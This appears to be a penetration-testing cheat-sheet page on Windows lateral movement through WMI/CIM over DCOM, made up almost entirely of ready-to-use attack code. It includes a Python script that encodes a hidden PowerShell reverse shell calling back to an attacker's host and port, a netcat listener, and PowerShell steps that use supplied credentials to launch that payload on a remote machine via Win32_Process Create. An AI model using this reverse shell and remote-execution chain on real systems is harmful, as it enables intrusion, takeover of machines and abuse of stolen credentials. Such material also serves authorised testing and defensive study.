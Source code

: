 If a user isn't in "Remote Users" group, it may be inaccessible with options like rdp, winrm or psexec.

Python script to encode powershell command:
```python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("$(LHOST)",$(LPORT));$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```
```bash
python3 encode.py
```
```bash
nc -lvnp $(LPORT)
```
On the target machine, run the following:
```powershell
$username = '$(USERNAME)';
```
```powershell
$password = '$(PASSWORD)';
```
```powershell
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
```
```powershell
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```
```powershell
$Options = New-CimSessionOption -Protocol DCOM
```
```powershell
$Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options
```
```powershell
$Command = '$(OUTPUT_OF_PYTHON_SCRIPT)';
```
```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
